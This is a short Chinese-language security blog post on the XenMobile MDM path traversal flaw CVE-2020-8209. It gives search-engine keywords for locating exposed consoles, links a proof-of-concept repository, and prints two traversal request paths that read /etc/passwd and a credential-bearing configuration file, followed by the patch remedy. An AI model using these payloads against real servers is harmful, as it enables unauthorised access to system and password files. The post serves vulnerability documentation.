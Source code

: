 ```yaml
---
title: XenMobile
encrypt: false
enc_pwd: askding
categories:
  - Kali
  - Exploit
date: 2020-12-13 14:50:45
top:
tags:
layout:
---
```

编写进度
- [x] 

  XenMobile MDM是一种可靠的移动设备管理解决方案，可以对企业设备和员工个人设备进行基于角色的管理和配置并确保安全性。完成用户设备注册后，IT部门可以自动为设备置备策略和应用，将应用列入黑名单或白名单，检测并防止使用越狱设备，擦除或有选择性地擦除丢失、被盗或不符合规定的设备中的数据。用户可以使用自己喜爱的任何设备，而IT部门可以确保企业资产的合规性，并有效保护设备中保存的企业内容。


## XenMobile目录穿越 CVE-2020-8209
CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件。

通过空间引擎关键字

"XenMobile控制台" 或者 "XenMobile - Console"

### POC

[CVE-2020-8209](https://github.com/B1anda0/CVE-2020-8209)
```zsh
/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd

/jsp/help-sb-download.jsp?sbFileName=../../../opt/sas/sw/config/sftu.properties
```

### 漏洞建议

官方补丁删除了/opt/sas/sw/tomcat/inst1/webapps/ROOT/jsp/help-sb-download.jsp




